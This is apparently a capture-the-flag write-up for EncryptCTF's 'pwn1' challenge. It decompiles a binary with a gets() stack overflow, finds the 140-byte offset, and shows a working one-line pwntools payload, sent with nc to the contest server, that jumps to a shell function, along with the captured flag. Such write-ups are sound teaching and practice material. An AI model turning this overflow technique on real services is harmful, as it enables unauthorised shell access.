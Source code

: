 ## PWN 1
### Category : Pwning/Binary Exploitaition

As usual we are given a binary to exploit.

Let's decompile it in Ghidra

```
undefined4 main(void)

{
  char local_90 [140];
  
  setvbuf(stdout,(char *)0x0,2,0);
  printf("Tell me your name: ");
  gets(local_90);
  printf("Hello, %s\n",local_90);
  return 0;
}
```

A simple buffer overflow. 

Let's checksec it

```
checksec pwn1 
[*] '/home/vipul/Desktop/EncryptCTF/pwn1_SOLVED/pwn1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

SInce NX is enabled, we can't inject shellcode. But we don't have to. We are given a function that calls the shell for us

```
void shell(void)

{
  system("/bin/bash");
  return;
}
```
2 Steps of Buffer Overflow

1) Find the Offset to overflow
2) Find the location of the function to call

For step 1

Using pwntools cyclic(n) function we get break it, and then using cyclic_find(n) we get the offset.

```
Reading symbols from ./pwn1...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/vipul/Desktop/EncryptCTF/pwn1_SOLVED/pwn1 
Tell me your name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Hello, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.


[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffffff 
EDX: 0xf7fac890 --> 0x0 
ESI: 0xf7fab000 --> 0x1dcd6c 
EDI: 0xf7fab000 --> 0x1dcd6c 
EBP: 0x6261616a ('jaab')
ESP: 0xffffd480 ("laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
EIP: 0x6261616b ('kaab')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x6261616b
[------------------------------------stack-------------------------------------]
0000| 0xffffd480 ("laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0004| 0xffffd484 ("maabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0008| 0xffffd488 ("naaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0012| 0xffffd48c ("oaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0016| 0xffffd490 ("paabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0020| 0xffffd494 ("qaabraabsaabtaabuaabvaabwaabxaabyaab")
0024| 0xffffd498 ("raabsaabtaabuaabvaabwaabxaabyaab")
0028| 0xffffd49c ("saabtaabuaabvaabwaabxaabyaab")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x6261616b in ?? ()
```

```
>>> from pwn import *
>>> cyclic(200)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
>>> cyclic_find(0x6261616b)
140
```
We have the offset 140. For the shell function
```
gdb-peda$ info address shell
Symbol "shell" is at 0x80484ad in a file compiled without debugging.
```
The exploit 
```
vipul@ubuntu:~$ python -c "from pwn import *; print('A'*140 +p32(0x80484ad))" > exploit
vipul@ubuntu:~$ cat exploit - | nc 104.154.106.182 2345
Tell me your name: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
whoami
pwn1
ls
flag.txt
pwn1
cat flag.txt
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}
```
